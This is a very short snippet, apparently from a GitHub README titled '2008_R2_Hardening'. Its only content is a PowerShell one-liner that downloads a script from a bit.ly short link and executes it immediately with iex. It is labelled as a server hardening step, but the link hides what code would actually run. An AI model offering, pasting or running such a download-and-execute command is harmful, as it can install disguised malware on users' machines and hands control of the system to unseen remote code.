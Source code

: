 # 2008_R2_Hardening
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('https://bit.ly/36qZxOg')"
